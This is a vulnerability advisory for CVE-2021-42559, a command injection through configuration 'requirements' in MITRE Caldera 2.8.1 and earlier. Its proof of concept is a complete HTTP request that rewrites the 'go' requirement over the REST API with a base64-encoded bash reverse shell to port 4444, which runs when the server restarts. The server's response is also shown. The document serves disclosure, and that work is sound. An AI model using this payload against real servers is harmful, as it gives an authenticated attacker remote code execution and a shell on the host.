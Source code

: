 # CVE-2021-42559: Command Injection Via Configurations in MITRE Caldera

Caldera (versions <=2.8.1) contains multiple startup "requirements" that execute commands when starting the server. Because these commands can be changed via the Rest API, an authenticated user can insert arbitrary commands that will execute when the server is restarted.
<br/>

### Software:

The MITRE Caldera software can be found [here](https://github.com/mitre/caldera).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

We use the following HTTP request in order to change the command for the "go" requirement to execute a reverse shell:
<br/>

Request:
```
POST /api/rest HTTP/1.1
Host: 192.168.243.180:8888
Content-Type: application/json
Content-Length: 307 
Cookie: API_SESSION="gAAAAABfkzOeJGqWz0pgDyaZ16BdFmuQzOenIthJ6XI9pgdt38mOPFYVv1ghN3NOjo5ZAEv934xzRKXehT35Msve_JHBMaPMyFY2JAFtYtCoU6jGLC7Bz8XBAoH9SArDdi3oTSVkAMl7rRu17YM-O6QBqO81XZya_g=="

{"index":"configuration","prop":"requirements","value":{"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": 1.11}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}}
```

Response:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 1090
Date: Fri, 23 Oct 2020 19:52:20 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

{"ability_refresh": 60, "api_key_blue": "aH***TRUNCATED***TU", "api_key_red": "Qv***TRUNCATED***M4", "app.contact.gist": "API_KEY", "app.contact.http": "http://0.0.0.0:8888", "app.contact.tcp": "0.0.0.0:7010", "app.contact.udp": "0.0.0.0:7011", "app.contact.websocket": "0.0.0.0:7012", "crypt_salt": "yz***TRUNCATED***Hw", "encryption_key": "0C***TRUNCATED***lw", "exfil_dir": "/tmp", "host": "0.0.0.0", "plugins": ["access", "atomic", "compass", "debrief", "fieldmanual", "gameboard", "manx", "response", "sandcat", "stockpile", "training", "ssl"], "port": 8888, "reports_dir": "/tmp", "requirements": {"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": 1.11}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}, "users": {"blue": {"blue": "po***TRUNCATED***5Y"}, "red": {"red": "mS***TRUNCATED***mM"}}}
```

When the server is closed the config changes will be permanently saved to "config/local.yml" and when the server is restarted the command will be executed resulting in a reverse shell (in this case on port 4444 localhost):

<img src="Images/code_executed_on_server_restart.png"/>
